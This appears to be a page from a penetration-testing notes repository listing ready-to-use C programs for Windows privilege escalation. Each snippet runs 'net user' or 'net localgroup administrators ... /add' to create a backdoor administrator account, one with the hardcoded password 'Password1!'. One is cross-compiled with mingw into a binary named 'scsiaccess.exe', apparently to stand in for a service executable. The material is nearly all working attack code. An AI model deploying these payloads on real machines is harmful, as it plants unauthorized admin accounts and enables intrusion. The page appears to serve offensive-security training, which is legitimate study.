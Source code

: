 ## Source code that can be used


**FOR MORE ON COMPILATION SEE** [vulns_and_exploits/compilation.md](vulns_and_exploits/compilation.md)

* Add a user with C
  ```
  # cat useradd.c
  #include <stdlib.h> /* system, NULL, EXIT_FAILURE */
  int main () {
  int i;
  i=system ("net localgroup administrators low /add"); return 0;
  }

  root@kali:~# i586-mingw32msvc-gcc -o scsiaccess.exe useradd.c
  ```

* Another C file to create a new user:
  ```
  #include <stdio.h>
  #include <windows.h>

  int main()
  {
          system("cmd /c net user tw Password1! /add");
          system("cmd /c net localgroup administrators tw /add");
  }
  ```
  "i used mingw on osx (brew install mingw-w64) to cross-compile it"

* POC for getsuid:
  ```
  #include <stdlib.h>
  int main ()
  {
  int i;
      i = system("net localgroup administrators theusername /add");
  return 0;
  }
  ```
